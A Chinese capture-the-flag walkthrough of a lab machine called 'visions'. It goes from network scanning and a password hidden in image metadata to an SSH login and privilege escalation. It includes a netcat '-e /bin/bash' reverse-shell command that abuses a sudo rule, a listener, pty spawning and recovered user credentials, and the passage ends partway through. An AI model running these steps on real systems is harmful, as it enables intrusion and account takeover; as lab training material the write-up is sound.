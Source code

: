 |   |   |   |
|---|---|---|
|visions|easy|图片隐写、图片调试、exiftool使用、sudo-nc提权、ssh私钥提权、ssh2john使用、john爆破私钥、ssh 私钥利用|
# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.136/24
```
# 服务扫描
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.136 
```
# 目录扫描

右键检查查看源码，猜测是用户名alicia
```C
 http://192.168.44.136/index.html
 
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 

翻译

只有那些能看到无形事物的人才能做到不可能的事情。
你必须能够看到不存在的东西。
只有那些能够看到不可见事物的人才能看到不存在的事物。
-艾丽西亚
```

页面只有个white.png空白图片，猜测是图片隐写
保存下来
查看信息
```C
exiftool white.png
strings white.png

得到： pw:ihaveadream
```
# 提权



```C
┌──(kali㉿kali)-[~/下载]
└─$ ssh alicia@192.168.44.136 //ihaveadream

sudo -l //  (emma) NOPASSWD: /usr/bin/nc
sudo -u emma /usr/bin/nc -e /bin/bash 192.168.44.136 2333
```

新建一个控制台ssh连接，nc监听
```C
nc -lvnp 2333

python3 -c 'import pty;pty.spawn("/bin/bash")'

emma@visions:~$ cat note.txt
cat note.txt
I cant help myself.
emma@visions:/home$ ls
ls
alicia  emma  isabella  sophia
emma@visions:/home$ cd sophia
cd sophia
emma@visions:/home/sophia$ ls
ls
flag.sh  user.txt
emma@visions:/home/sophia$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```
可以看到home目录下还有好多其他用户，这里脑洞较为大，还得回到那张图片white.png
把它复制到windows的world里，图片格式-->矫正-->
sophia/seemstobeimpossible